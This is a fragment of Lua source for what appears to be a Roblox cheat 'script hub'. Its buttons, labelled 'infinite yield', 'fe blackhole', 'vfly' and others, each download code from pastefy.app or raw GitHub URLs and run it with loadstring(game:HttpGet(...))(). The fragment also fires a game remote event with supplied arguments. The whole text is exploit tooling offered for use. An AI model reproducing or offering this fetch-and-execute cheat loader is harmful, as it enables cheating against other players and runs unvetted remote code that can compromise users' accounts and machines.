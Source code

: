 game:GetService("ReplicatedStorage").RE:FindFirstChild("1Gu1nSound1s"):FireServer(unpack(args))
    end
})


local MainTab = Window:AddTab({ Title = "scripts v3😈" })

MainTab:AddButton({
    Title = "cleiti brookhaven ",
    Callback = function()
        print("Botão clicado!")loadstring(game:HttpGet("https://pastefy.app/ta8BeBZc/raw"))()
    end
})

MainTab:AddButton({
    Title = "script sus",
    Callback = function()
        print("Botão clicado!")--Made by muscle_legends2021 (Gio)
--YouTube: GioBolqvi

loadstring(game:HttpGet("https://pastefy.app/YZoglOyJ/raw"))()
    end
})

MainTab:AddButton({
    Title = "serpente x",
    Callback = function()
        print("Botão clicado!")loadstring(game:HttpGet("https://raw.githubusercontent.com/err0r129/SerpenteXbetaByDefense129/main/Serpente.Scripts"))()
    end
})

MainTab:AddButton({
    Title = "infinite yield",
    Callback = function()
        print("Botão clicado!")loadstring(game:HttpGet('https://raw.githubusercontent.com/EdgeIY/infiniteyield/master/source'))()
    end
})

MainTab:AddButton({
    Title = "fe blackhole",
    Callback = function()
        print("Botão clicado!")
loadstring(game:HttpGet("https://raw.githubusercontent.com/GoofyBlox/GoofyZ/refs/heads/main/Best/Vortex.lua", true))()
    end
})

MainTab:AddButton({
    Title = "vfly",
    Callback = function()
        print("Botão clicado!")
loadstring(game:HttpGet("https://raw.githubusercontent.com/HubStudioInjection/Exploits/refs/heads/main/VFly.lua"))()
    end
})
